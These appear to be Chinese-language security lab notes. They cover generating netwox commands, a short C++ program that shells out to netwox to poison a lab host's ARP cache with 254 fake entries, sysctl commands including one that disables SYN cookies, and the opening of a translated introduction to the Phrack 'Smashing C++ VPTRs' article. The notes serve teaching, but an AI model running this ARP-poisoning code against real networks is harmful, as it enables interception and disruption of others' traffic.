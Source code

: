 输入参数后，单击Generate按钮，而不是单击run按钮。这将在窗口的底部显示一些文本。复制该文本并将其用作Netwox命令的参数。例如，对于前面提到的情况，输出将是:

```bash
#netwox 7 --device "Eth2" --filter "host 1.2.3.4 and tcp port 80" --rawip
```

现在我们知道了如何从命令行使用netwox工具，我们可以围绕它编写大量的功能代码。大多数现代语言如C、C++、Java、Perl、Ruby等都允许你执行随机文件。我们可以利用这些语言所提供的字符串操作能力和netwox工具来设计任意的自动攻击。考虑一下下面的程序。

```c++
#include <iostream>
using namespace std;
int main()
{
	char add[50];
	char ethadd[50];
	char arppoison[1000];
	for(int i=1;i<255;i++)
	{
	sprintf(add,"192.168.232.%d",i);
	sprintf(ethadd,"%x:%x:%x:%x:%x:%x",i,i,i,i,i,i);
	sprintf(arppoison,"netwox --ips \"192.168.232.131\"	--device \"Eth2\" --src-eth %s --src-ip %s",ethadd,add);
	system(arppoison);
	}
}
```

上面的代码试图在ARP缓存中投毒，该机器的IP地址为 IP地址为192.168.232.131的机器上的255个假值。由于以太网地址 是十六进制的，第20行构建了一个假的十六进制字符串，作为 以太网地址。这个程序将为IP地址192.168.232.1到192.168.232.255添加条目 到192.168.232.255在192.168.232.131的arp缓存中。
使用类似的策略可以设计出更复杂的攻击。

## linux命令

```bash
sysctl -q net.ipv4.tcp_max_syn_backlog
sysctl -w net.ipv4.tcp_syncookies=0
```

> `sysctl`  用于在内核运行时动态地修改内核的运行参数；
>
> > `-p`：从配置文件“/etc/sysctl.conf”加载内核参数设置；
> >
> > `-w`：当改变sysctl设置时使用此项；

- `net.ipv4.tcp_max_syn_backlog`：TCP syn 队列的最大长度, 是指定所能接受SYN同步包的最大客户端数量，即半连接上限；第一次握手的连接参数过大可能也会遭受syn flood攻击

- `net.ipv4.tcp_syncookies `：为1表示开启SYN cookies。当出现SYN等待队列溢出时，启用cookies来处理，可防范少量SYN攻击，默认为0，表示关闭

## Smashing C++ VPTRs

4、阅读Smashing C++ VPTRs这篇文章，阐述其原理。
http://www.phrack.org/issues.html?issue=56&id=8

[Phrack Magazine](phrack.org- Phrack Magazine .pdf)

#### 介绍

目前，一套广为人知的技术指导我们如何利用通常用C语言编写的程序中的缓冲区溢出。虽然C语言几乎无处不在，但我们看到许多程序也是用C++编写的。在大多数情况下，适用于C语言的技术在C++中也是可用的，然而，C++在缓冲区溢出方面可以为我们提供新的可能性，这主要是由于面向对象技术的使用。我们将使用C++ GNU编译器，在x86 Linux系统上分析其中的一种可能性。





